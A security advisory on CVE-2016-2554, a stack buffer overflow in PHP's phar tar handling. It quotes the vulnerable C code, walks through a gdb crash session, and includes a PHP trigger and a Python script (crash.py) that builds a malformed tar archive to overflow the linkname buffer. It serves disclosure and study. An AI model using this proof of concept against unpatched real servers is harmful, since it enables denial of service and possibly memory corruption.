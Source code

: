 #+title: php: stack overflow when decompressing tar archives (CVE-2016-2554)
#+author: Hans Jerry Illikainen
#+email: hji@dyntopia.com

A stack overflow may occur in PHP[1] when decompressing tar archives due
to ~phar_tar_writeheaders()~ potentially copying non-terminated
linknames from entries parsed by ~phar_parse_tarfile()~ (tested with
5.6.11, 5.6.17 and 7.0.2).


php-5.6.17/ext/phar/tar.h #65..94:
#+begin_src c
typedef struct _tar_header {  /* {{{ */
    [...]
    char linkname[100]; /* name of linked file */
    char magic[6];      /* USTAR indicator */
    char version[2];    /* USTAR version */
    char uname[32];     /* owner user name */
    char gname[32];     /* owner group name */
    char devmajor[8];   /* device major number */
    char devminor[8];   /* device minor number */
    char prefix[155];   /* prefix for file name;
                           the value of the prefix field, if non-null,
                           is prefixed to the name field to allow names
                           longer then 100 characters */
    char padding[12];   /* unused zeroed bytes */
} PHAR_TAR_PACK tar_header;
#+end_src


php-5.6.17/ext/phar/tar.c #198..678:
#+begin_src c
int phar_parse_tarfile(php_stream* fp, char *fname, int fname_len, char *alias, int alias_len, phar_archive_data** pphar, int is_data, php_uint32 compression, char **error TSRMLS_DC) /* {{{ */
{
    char buf[512], *actual_alias = NULL, *p;
    phar_entry_info entry = {0};
    size_t pos = 0, read, totalsize;
    tar_header *hdr;
    php_uint32 sum1, sum2, size, old;
    phar_archive_data *myphar, **actual;
    int last_was_longlink = 0;

    [...]
    read = php_stream_read(fp, buf, sizeof(buf));
    [...]

    do {
        [...]
        hdr = (tar_header*) buf;
        [...]

        if (entry.tar_type == TAR_LINK) {
            [...]
            entry.link = estrdup(hdr->linkname);
        } else if (entry.tar_type == TAR_SYMLINK) {
            entry.link = estrdup(hdr->linkname);
        }
        [...]
        read = php_stream_read(fp, buf, sizeof(buf));
        [...]
    } while (read != 0);
    [...]
}
/* }}} */
#+end_src


linkname is expected to be <=100 bytes and it's estrdup:ed from
~((tar_header *)buf)->linkname~ to ~entry.link~.  However, since there's
no guarantee that ~linkname~ or any of the following buffers are
NUL-terminated, the resulting ~entry.link~ may be at least
sizeof(linkname) + ... + sizeof(padding) = 355 bytes (and possibly
bigger depending on where \0 is encountered).

As the header is later written in ~phar_tar_writeheaders()~, linkname is
strncpy:d to ~char linkname[100]~ with a len based on the source string.

php-5.6.17/ext/phar/tar.c #688..835:
#+begin_src c
static int phar_tar_writeheaders(void *pDest, void *argument TSRMLS_DC) /* {{{ */
{
    tar_header header;
    [...]
    phar_entry_info *entry = (phar_entry_info *) pDest;

    [...]
    if (entry->link) {
        strncpy(header.linkname, entry->link, strlen(entry->link));
    }
    [...]
}
/* }}} */
#+end_src


With php-5.6.17 compiled with -D_FORTIFY_SOURCE=2:

#+begin_src sh
$ python crash.py crash.tar
$ gdb --args php-5.6.17/bin/php phar.php crash.tar ext
(gdb) b tar.c:490
(gdb) r
Breakpoint 1, phar_parse_tarfile [...]
490    entry.link = estrdup(hdr->linkname);

(gdb) call strlen(hdr->linkname)
$1 = 617
(gdb) printf "%s\n", hdr->linkname
linkname...linkname...linkname...linkname...linkname...linkname...
linkname...linkname...linkname...lmagic...uname...uname...uname...
uname...gname...gname...gname...gname...major...minor...prefix...
prefix...prefix...prefix...prefix...prefix...prefix...prefix...
prefix...prefix...prefix...prefix...prefix...prefix...prefix...
prefix...prefix...prpadding...paprefix...prefix...prefix...
prefix...prefix...prefix...prefix...prefix...prefix...prefix...
prefix...prefix...prefix...prefix...prefix...prefix...prefix...
pr/name...name...name...name...name...name...name...name...name...
name...name...name...name...name...na?????

(gdb) b strncpy
(gdb) c
Breakpoint 2, phar_tar_writeheaders [...]
756    strncpy(header.linkname, entry->link, strlen(entry->link));
(gdb) p sizeof(header.linkname)
$2 = 100

(gdb) s
strncpy (__len=617, __src=0x7ffff7fdbbe0 "linkname...linkname...
linkname...linkname...linkname...linkname...linkname...linkname...
linkname...lmagic...uname...uname...uname...uname...gname...gname...
gname...gname...major...minor...prefix...pre"..., __dest=0x7fffffffa13d "")
at /usr/include/x86_64-linux-gnu/bits/string3.h:126
126    return __builtin___strncpy_chk (__dest, __src, __len, __bos (__dest));

(gdb) c
Continuing.
 *** buffer overflow detected ***: /home/php/php-5.6.17/bin/php terminated
======= Backtrace: =========
/lib/x86_64-linux-gnu/libc.so.6(+0x78c4e)[0x7ffff6fa7c4e]
/lib/x86_64-linux-gnu/libc.so.6(__fortify_fail+0x5c)[0x7ffff7047e8c]
/lib/x86_64-linux-gnu/libc.so.6(+0x116e80)[0x7ffff7045e80]
/lib/x86_64-linux-gnu/libc.so.6(+0x116319)[0x7ffff7045319]
/home/php/php-5.6.17/bin/php[0x5983e4]
/home/php/php-5.6.17/bin/php(zend_hash_apply_with_argument+0x79)[0x6f4cf9]
/home/php/php-5.6.17/bin/php[0x59aa84]
/home/php/php-5.6.17/bin/php[0x5af476]
/home/php/php-5.6.17/bin/php[0x5ba050]
/home/php/php-5.6.17/bin/php[0x5baf2a]
/home/php/php-5.6.17/bin/php[0x79543f]
/home/php/php-5.6.17/bin/php(execute_ex+0x40)[0x723a50]
/home/php/php-5.6.17/bin/php(zend_execute_scripts+0x180)[0x6e7dd0]
/home/php/php-5.6.17/bin/php(php_execute_script+0x280)[0x683160]
/home/php/php-5.6.17/bin/php[0x796f32]
/home/php/php-5.6.17/bin/php[0x423c9e]
/lib/x86_64-linux-gnu/libc.so.6(__libc_start_main+0xf0)[0x7ffff6f4fa40]
/home/php/php-5.6.17/bin/php(_start+0x29)[0x423de9]
======= Memory map: ========
00400000-00bff000 r-xp 00000000 08:01 557690                             /home/php/php-5.6.17/bin/php
00dfe000-00e8f000 r--p 007fe000 08:01 557690                             /home/php/php-5.6.17/bin/php
00e8f000-00e98000 rw-p 0088f000 08:01 557690                             /home/php/php-5.6.17/bin/php
00e98000-01051000 rw-p 00000000 00:00 0                                  [heap]
7ffff44f3000-7ffff4931000 r--p 00000000 08:01 136079                     /usr/lib/locale/locale-archive
7ffff4931000-7ffff4947000 r-xp 00000000 08:01 786971                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7ffff4947000-7ffff4b46000 ---p 00016000 08:01 786971                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7ffff4b46000-7ffff4b47000 r--p 00015000 08:01 786971                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7ffff4b47000-7ffff4b48000 rw-p 00016000 08:01 786971                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7ffff4b48000-7ffff4cbb000 r-xp 00000000 08:01 133608                     /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.21
7ffff4cbb000-7ffff4eba000 ---p 00173000 08:01 133608                     /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.21
7ffff4eba000-7ffff4ec4000 r--p 00172000 08:01 133608                     /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.21
7ffff4ec4000-7ffff4ec6000 rw-p 0017c000 08:01 133608                     /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.21
7ffff4ec6000-7ffff4eca000 rw-p 00000000 00:00 0
7ffff4eca000-7ffff6780000 r-xp 00000000 08:01 140633                     /usr/lib/x86_64-linux-gnu/libicudata.so.55.1
7ffff6780000-7ffff697f000 ---p 018b6000 08:01 140633                     /usr/lib/x86_64-linux-gnu/libicudata.so.55.1
7ffff697f000-7ffff6980000 r--p 018b5000 08:01 140633                     /usr/lib/x86_64-linux-gnu/libicudata.so.55.1
7ffff6980000-7ffff6981000 rw-p 018b6000 08:01 140633                     /usr/lib/x86_64-linux-gnu/libicudata.so.55.1
7ffff6981000-7ffff699a000 r-xp 00000000 08:01 787064                     /lib/x86_64-linux-gnu/libz.so.1.2.8
7ffff699a000-7ffff6b99000 ---p 00019000 08:01 787064                     /lib/x86_64-linux-gnu/libz.so.1.2.8
7ffff6b99000-7ffff6b9a000 r--p 00018000 08:01 787064                     /lib/x86_64-linux-gnu/libz.so.1.2.8
7ffff6b9a000-7ffff6b9b000 rw-p 00019000 08:01 787064                     /lib/x86_64-linux-gnu/libz.so.1.2.8
7ffff6b9b000-7ffff6d1a000 r-xp 00000000 08:01 140629                     /usr/lib/x86_64-linux-gnu/libicuuc.so.55.1
7ffff6d1a000-7ffff6f1a000 ---p 0017f000 08:01 140629                     /usr/lib/x86_64-linux-gnu/libicuuc.so.55.1
7ffff6f1a000-7ffff6f2a000 r--p 0017f000 08:01 140629                     /usr/lib/x86_64-linux-gnu/libicuuc.so.55.1
7ffff6f2a000-7ffff6f2b000 rw-p 0018f000 08:01 140629                     /usr/lib/x86_64-linux-gnu/libicuuc.so.55.1
7ffff6f2b000-7ffff6f2f000 rw-p 00000000 00:00 0
7ffff6f2f000-7ffff70ef000 r-xp 00000000 08:01 786945                     /lib/x86_64-linux-gnu/libc-2.21.so
7ffff70ef000-7ffff72ef000 ---p 001c0000 08:01 786945                     /lib/x86_64-linux-gnu/libc-2.21.so
7ffff72ef000-7ffff72f3000 r--p 001c0000 08:01 786945                     /lib/x86_64-linux-gnu/libc-2.21.so
7ffff72f3000-7ffff72f5000 rw-p 001c4000 08:01 786945                     /lib/x86_64-linux-gnu/libc-2.21.so
7ffff72f5000-7ffff72f9000 rw-p 00000000 00:00 0
7ffff72f9000-7ffff74a6000 r-xp 00000000 08:01 134031                     /usr/lib/x86_64-linux-gnu/libxml2.so.2.9.2
7ffff74a6000-7ffff76a6000 ---p 001ad000 08:01 134031                     /usr/lib/x86_64-linux-gnu/libxml2.so.2.9.2
7ffff76a6000-7ffff76ae000 r--p 001ad000 08:01 134031                     /usr/lib/x86_64-linux-gnu/libxml2.so.2.9.2
7ffff76ae000-7ffff76b0000 rw-p 001b5000 08:01 134031                     /usr/lib/x86_64-linux-gnu/libxml2.so.2.9.2
7ffff76b0000-7ffff76b1000 rw-p 00000000 00:00 0
7ffff76b1000-7ffff76b4000 r-xp 00000000 08:01 786959                     /lib/x86_64-linux-gnu/libdl-2.21.so
7ffff76b4000-7ffff78b3000 ---p 00003000 08:01 786959                     /lib/x86_64-linux-gnu/libdl-2.21.so
7ffff78b3000-7ffff78b4000 r--p 00002000 08:01 786959                     /lib/x86_64-linux-gnu/libdl-2.21.so
7ffff78b4000-7ffff78b5000 rw-p 00003000 08:01 786959                     /lib/x86_64-linux-gnu/libdl-2.21.so
7ffff78b5000-7ffff79bc000 r-xp 00000000 08:01 786990                     /lib/x86_64-linux-gnu/libm-2.21.so
7ffff79bc000-7ffff7bbb000 ---p 00107000 08:01 786990                     /lib/x86_64-linux-gnu/libm-2.21.so
7ffff7bbb000-7ffff7bbc000 r--p 00106000 08:01 786990                     /lib/x86_64-linux-gnu/libm-2.21.so
7ffff7bbc000-7ffff7bbd000 rw-p 00107000 08:01 786990                     /lib/x86_64-linux-gnu/libm-2.21.so
7ffff7bbd000-7ffff7bd4000 r-xp 00000000 08:01 787034                     /lib/x86_64-linux-gnu/libresolv-2.21.so
7ffff7bd4000-7ffff7dd4000 ---p 00017000 08:01 787034                     /lib/x86_64-linux-gnu/libresolv-2.21.so
7ffff7dd4000-7ffff7dd6000 r--p 00017000 08:01 787034                     /lib/x86_64-linux-gnu/libresolv-2.21.so
7ffff7dd6000-7ffff7dd7000 rw-p 00019000 08:01 787034                     /lib/x86_64-linux-gnu/libresolv-2.21.so
7ffff7dd7000-7ffff7dd9000 rw-p 00000000 00:00 0
7ffff7dd9000-7ffff7dfd000 r-xp 00000000 08:01 786921                     /lib/x86_64-linux-gnu/ld-2.21.so
7ffff7e51000-7ffff7fea000 rw-p 00000000 00:00 0
7ffff7ff5000-7ffff7ff8000 rw-p 00000000 00:00 0
7ffff7ff8000-7ffff7ffa000 r--p 00000000 00:00 0                          [vvar]
7ffff7ffa000-7ffff7ffc000 r-xp 00000000 00:00 0                          [vdso]
7ffff7ffc000-7ffff7ffd000 r--p 00023000 08:01 786921                     /lib/x86_64-linux-gnu/ld-2.21.so
7ffff7ffd000-7ffff7ffe000 rw-p 00024000 08:01 786921                     /lib/x86_64-linux-gnu/ld-2.21.so
7ffff7ffe000-7ffff7fff000 rw-p 00000000 00:00 0
7ffffffde000-7ffffffff000 rw-p 00000000 00:00 0                          [stack]
ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]

Program received signal SIGABRT, Aborted.
0x00007ffff6f64267 in __GI_raise (sig=sig@entry=6) at ../sysdeps/unix/sysv/linux/raise.c:55
55    ../sysdeps/unix/sysv/linux/raise.c: No such file or directory.
(gdb)
#+end_src


* phar.php
#+begin_src php
<?php
if ($argc != 3) {
    die("$argv[0] filename extension\n");
}

$p = new PharData($argv[1]);
$newp = $p->decompress($argv[2]);
?>
#+end_src


* crash.py
#+begin_src python
# This creates an example .tar with:
#
# 1. a pax header with a ustar\x0000 magic
# 2. a symbolic link with mostly bogus header data
#
# `old' (tar.c:226) will be false due to #1, and with the prefix data of #2,
# `hdr->prefix' will be concatenated with `hdr->name' in `char name[256]',
# starting on tar.c:401:
#
#     else if (!last_was_longlink && !old && hdr->prefix[0] != 0) { ... }
#
# hdr->linkname..hdr->padding in #2 won't be NUL-terminated, resulting
# in a longer than 100 byte `entry.link' in tar.c:490:
#
#     entry.link = estrdup(hdr->linkname);
#
# With the php5-cli (5.6.11+dfsg-1ubuntu3.1) package provided by Ubuntu
# 15.10, as well as with a self-built php-5.6.17, `hdr' is followed by
# the concatenated `name' buffer.
#
# The resulting `entry.link' will thus be hdr->linkname..hdr->padding
# (355 bytes) + name (256 bytes) + whatever else until a NUL byte is
# encountered.
#
# The invocation of `strncpy()' in `phar_tar_writeheaders()' (tar.c:756)
# will therefore end up copying >= 611 bytes to `header.linkname' (100
# bytes)
#
#     strncpy(header.linkname, entry->link, strlen(entry->link));
#
import sys
import struct
from tarfile import (TarFile, TarInfo, calc_chksums, stn, itn,
                     POSIX_MAGIC, PAX_FORMAT, REGTYPE, BLOCKSIZE, SYMTYPE)

class Info(TarInfo):
    @staticmethod
    def _create_header(info, format):
        """
        _create_header() is more or less copy-pasted from
        python2.7/tarfile.py with some minor changes to avoid
        NUL-termination.
        """
        magic = POSIX_MAGIC
        if info["name"] != "././@PaxHeader":
            magic = "magic..."

        parts = [
            stn(info.get("name", ""), 100),
            itn(info.get("mode", 0) & 07777, 8, format),
            itn(info.get("uid", 0), 8, format),
            itn(info.get("gid", 0), 8, format),
            itn(info.get("size", 0), 12, format),
            itn(info.get("mtime", 0), 12, format),
            "        ", # checksum field
            info.get("type", REGTYPE),
            stn(info.get("linkname", ""), 100),
            pad(magic, 8),
            pad("uname...", 32),
            pad("gname...", 32),
            pad("major...", 8),
            pad("minor...", 8),
            pad("prefix...", 155),
            pad("padding...", 12)
        ]

        buf = struct.pack("%ds" % BLOCKSIZE, "".join(parts))
        chksum = calc_chksums(buf[-BLOCKSIZE:])[0]
        buf = buf[:-364] + "%06o\0" % chksum + buf[-357:]
        return buf

def pad(s, length):
    return (s * length)[:length]

def main():
    if len(sys.argv) != 2:
        sys.exit("%s out" % sys.argv[0])

    tar = TarFile(sys.argv[1], "w", format=PAX_FORMAT)

    info = Info()
    info.type = SYMTYPE
    info.linkname = pad("linkname...", 155)
    info.name = pad("name...", 100)

    tar.addfile(info)
    tar.close()

if __name__ == "__main__":
    main()
#+end_src


* Solution

This issue has been assigned CVE-2016-2554 [2] and it has been fixed in
version 5.5.32, 5.6.18 and 7.0.3.


* Footnotes

[1] https://bugs.php.net/bug.php?id=71488

[2] http://seclists.org/oss-sec/2016/q1/428
